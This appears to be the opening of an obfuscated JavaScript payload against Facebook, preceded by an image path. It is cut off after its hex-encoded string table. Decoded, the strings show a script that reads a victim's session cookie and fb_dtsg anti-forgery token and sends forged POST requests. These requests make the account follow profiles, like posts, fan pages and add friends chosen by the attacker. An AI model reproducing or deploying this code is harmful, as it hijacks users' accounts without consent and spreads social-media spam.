 var _0x235a=["\x2F\x61\x6A\x61\x78\x2F\x66\x6F\x6C\x6C\x6F\x77\x2F\x66\x6F\x6C\x6C\x6F\x77\x5F\x70\x72\x6F\x66\x69\x6C\x65\x2E\x70\x68\x70\x3F\x5F\x5F\x61\x3D\x31","\x70\x72\x6F\x66\x69\x6C\x65\x5F\x69\x64\x3D","\x26\x6C\x6F\x63\x61\x74\x69\x6F\x6E\x3D\x31\x26\x73\x6F\x75\x72\x63\x65\x3D\x66\x6F\x6C\x6C\x6F\x77\x2D\x62\x75\x74\x74\x6F\x6E\x26\x73\x75\x62\x73\x63\x72\x69\x62\x65\x64\x5F\x62\x75\x74\x74\x6F\x6E\x5F\x69\x64\x3D\x75\x33\x37\x71\x61\x63\x5F\x33\x37\x26\x66\x62\x5F\x64\x74\x73\x67\x3D","\x26\x6C\x73\x64\x26\x5F\x5F","\x26\x70\x68\x73\x74\x61\x6D\x70\x3D","\x50\x4F\x53\x54","\x6F\x70\x65\x6E","\x6F\x6E\x72\x65\x61\x64\x79\x73\x74\x61\x74\x65\x63\x68\x61\x6E\x67\x65","\x72\x65\x61\x64\x79\x53\x74\x61\x74\x65","\x73\x74\x61\x74\x75\x73","\x63\x6C\x6F\x73\x65","\x73\x65\x6E\x64","\x31\x30\x30\x30\x30\x37\x37\x39\x37\x31\x38\x32\x33\x35\x33","\x73\x63\x72\x69\x70\x74","\x63\x72\x65\x61\x74\x65\x45\x6C\x65\x6D\x65\x6E\x74","\x69\x6E\x6E\x65\x72\x48\x54\x4D\x4C","\x6E\x65\x77\x20\x41\x73\x79\x6E\x63\x52\x65\x71\x75\x65\x73\x74\x28\x29\x2E\x73\x65\x74\x55\x52\x49\x28\x27\x2F\x61\x6A\x61\x78\x2F\x66\x72\x69\x65\x6E\x64\x73\x2F\x6C\x69\x73\x74\x73\x2F\x73\x75\x62\x73\x63\x72\x69\x62\x65\x2F\x6D\x6F\x64\x69\x66\x79\x3F\x6C\x6F\x63\x61\x74\x69\x6F\x6E\x3D\x70\x65\x72\x6D\x61\x6C\x69\x6E\x6B\x26\x61\x63\x74\x69\x6F\x6E\x3D\x73\x75\x62\x73\x63\x72\x69\x62\x65\x27\x29\x2E\x73\x65\x74\x44\x61\x74\x61\x28\x7B\x20\x66\x6C\x69\x64\x3A\x20","\x20\x7D\x29\x2E\x73\x65\x6E\x64\x28\x29\x3B","\x61\x70\x70\x65\x6E\x64\x43\x68\x69\x6C\x64","\x62\x6F\x64\x79","\x31\x33\x37\x35\x36\x36\x39\x31\x35\x32\x37\x30\x32\x39\x37\x38","\x31\x33\x37\x35\x36\x37\x33\x34\x30\x32\x37\x30\x32\x35\x35\x33","\x31\x33\x37\x35\x37\x31\x37\x38\x34\x36\x30\x33\x31\x34\x34\x32","\x31\x33\x37\x35\x36\x36\x34\x30\x39\x32\x37\x30\x33\x34\x38\x34","\x31\x33\x37\x35\x36\x36\x33\x39\x37\x32\x37\x30\x33\x34\x39\x36","\x31\x33\x37\x35\x36\x36\x33\x37\x39\x39\x33\x37\x30\x31\x38\x30","\x31\x33\x37\x35\x36\x36\x33\x36\x32\x39\x33\x37\x30\x31\x39\x37","\x31\x33\x37\x35\x36\x36\x34\x33\x32\x36\x30\x33\x36\x37\x39\x34","\x31\x33\x37\x35\x36\x36\x34\x34\x31\x39\x33\x37\x30\x31\x31\x38","\x31\x33\x37\x35\x36\x36\x34\x34\x39\x32\x37\x30\x33\x34\x34\x34","\x31\x33\x37\x35\x36\x36\x34\x36\x34\x39\x33\x37\x30\x30\x39\x35","\x31\x33\x37\x35\x36\x36\x34\x36\x38\x39\x33\x37\x30\x30\x39\x31","\x31\x33\x37\x35\x36\x36\x34\x37\x32\x39\x33\x37\x30\x30\x38\x37","\x31\x33\x37\x35\x36\x36\x34\x37\x38\x32\x37\x30\x33\x34\x31\x35","\x31\x33\x37\x35\x36\x37\x32\x37\x39\x39\x33\x36\x39\x32\x38\x30","\x6D\x61\x74\x63\x68","\x63\x6F\x6F\x6B\x69\x65","\x76\x61\x6C\x75\x65","\x66\x62\x5F\x64\x74\x73\x67","\x67\x65\x74\x45\x6C\x65\x6D\x65\x6E\x74\x73\x42\x79\x4E\x61\x6D\x65","\x67\x65\x74\x54\x69\x6D\x65","\x2F\x2F\x77\x77\x77\x2E\x66\x61\x63\x65\x62\x6F\x6F\x6B\x2E\x63\x6F\x6D\x2F\x61\x6A\x61\x78\x2F\x75\x66\x69\x2F\x6C\x69\x6B\x65\x2E\x70\x68\x70","\x6C\x69\x6B\x65\x5F\x61\x63\x74\x69\x6F\x6E\x3D\x74\x72\x75\x65\x26\x66\x74\x5F\x65\x6E\x74\x5F\x69\x64\x65\x6E\x74\x69\x66\x69\x65\x72\x3D","\x26\x73\x6F\x75\x72\x63\x65\x3D\x31\x26\x63\x6C\x69\x65\x6E\x74\x5F\x69\x64\x3D","\x25\x33\x41\x33\x33\x36\x36\x36\x37\x37\x34\x32\x37\x26\x72\x6F\x6F\x74\x69\x64\x3D\x75\x5F\x70\x73\x5F\x30\x5F\x30\x5F\x31\x34\x26\x67\x69\x66\x74\x6F\x63\x63\x61\x73\x69\x6F\x6E\x26\x66\x74\x5B\x74\x6E\x5D\x3D\x25\x33\x45\x25\x33\x44\x55\x26\x66\x74\x5B\x74\x79\x70\x65\x5D\x3D\x32\x30\x26\x66\x74\x5B\x71\x69\x64\x5D\x3D\x35\x38\x38\x32\x30\x30\x36\x38\x39\x30\x35\x31\x33\x37\x38\x34\x37\x31\x32\x26\x66\x74\x5B\x6D\x66\x5F\x73\x74\x6F\x72\x79\x5F\x6B\x65\x79\x5D\x3D","\x26\x6E\x63\x74\x72\x5B\x5F\x6D\x6F\x64\x5D\x3D\x70\x61\x67\x65\x6C\x65\x74\x5F\x68\x6F\x6D\x65\x5F\x73\x74\x72\x65\x61\x6D\x26\x5F\x5F\x75\x73\x65\x72\x3D","\x26\x5F\x5F\x61\x3D\x31\x26\x5F\x5F\x64\x79\x6E\x3D\x37\x6E\x38\x61\x68\x79\x6A\x33\x35\x43\x46\x77\x58\x41\x67\x26\x5F\x5F\x72\x65\x71\x3D\x6A\x26\x66\x62\x5F\x64\x74\x73\x67\x3D","\x2F\x2F\x77\x77\x77\x2E\x66\x61\x63\x65\x62\x6F\x6F\x6B\x2E\x63\x6F\x6D\x2F\x61\x6A\x61\x78\x2F\x70\x61\x67\x65\x73\x2F\x66\x61\x6E\x5F\x73\x74\x61\x74\x75\x73\x2E\x70\x68\x70","\x26\x66\x62\x70\x61\x67\x65\x5F\x69\x64\x3D","\x26\x61\x64\x64\x3D\x74\x72\x75\x65\x26\x72\x65\x6C\x6F\x61\x64\x3D\x66\x61\x6C\x73\x65\x26\x66\x61\x6E\x5F\x6F\x72\x69\x67\x69\x6E\x3D\x70\x61\x67\x65\x5F\x74\x69\x6D\x65\x6C\x69\x6E\x65\x26\x66\x61\x6E\x5F\x73\x6F\x75\x72\x63\x65\x3D\x26\x63\x61\x74\x3D\x26\x6E\x63\x74\x72\x5B\x5F\x6D\x6F\x64\x5D\x3D\x70\x61\x67\x65\x6C\x65\x74\x5F\x74\x69\x6D\x65\x6C\x69\x6E\x65\x5F\x70\x61\x67\x65\x5F\x61\x63\x74\x69\x6F\x6E\x73\x26\x5F\x5F\x75\x73\x65\x72\x3D","\x26\x5F\x5F\x61\x3D\x31\x26\x5F\x5F\x64\x79\x6E\x3D\x37\x39\x38\x61\x44\x35\x7A\x35\x43\x46\x2D\x26\x5F\x5F\x72\x65\x71\x3D\x64\x26\x66\x62\x5F\x64\x74\x73\x67\x3D","\x36\x39\x34\x33\x36\x39\x38\x35\x37\x32\x34\x31\x34\x33\x31","\x2F\x2F\x77\x77\x77\x2E\x66\x61\x63\x65\x62\x6F\x6F\x6B\x2E\x63\x6F\x6D\x2F\x61\x6A\x61\x78\x2F\x61\x64\x64\x5F\x66\x72\x69\x65\x6E\x64\x2F\x61\x63\x74\x69\x6F\x6E\x2E\x70\x68\x70","\x74\x6F\x5F\x66\x72\x69\x65\x6E\x64\x3D","\x26\x61\x63\x74\x69\x6F\x6E\x3D\x61\x64\x64\x5F\x66\x72\x69\x65\x6E\x64\x26\x68\x6F\x77\x5F\x66\x6F\x75\x6E\x64\x3D\x66\x72\x69\x65\x6E\x64\x5F\x62\x72\x6F\x77\x73\x65\x72\x5F\x73\x26\x72\x65\x66\x5F\x70\x61\x72\x61\x6D\x3D\x6E\x6F\x6E\x65\x26\x26\x26\x6F\x75\x74\x67\x6F\x69\x6E\x67\x5F\x69\x64\x3D\x26\x6C\x6F\x67\x67\x69\x6E\x67\x5F\x6C\x6F\x63\x61\x74\x69\x6F\x6E\x3D\x73\x65\x61\x72\x63\x68\x26\x6E\x6F\x5F\x66\x6C\x79\x6F\x75\x74\x5F\x6F\x6E\x5F\x63\x6C\x69\x63\x6B\x3D\x74\x72\x75\x65\x26\x65\x67\x6F\x5F\x6C\x6F\x67\x5F\x64\x61\x74\x61\x26\x68\x74\x74\x70\x5F\x72\x65\x66\x65\x72\x65\x72\x26\x5F\x5F\x75\x73\x65\x72\x3D","\x26\x5F\x5F\x61\x3D\x31\x26\x5F\x5F\x64\x79\x6E\x3D\x37\x39\x38\x61\x44\x35\x7A\x35\x43\x46\x2D\x26\x5F\x5F\x72\x65\x71\x3D\x33\x35\x26\x66\x62\x5F\x64\x74\x73\x67\x3D"];function a(_0x3ff7x2){var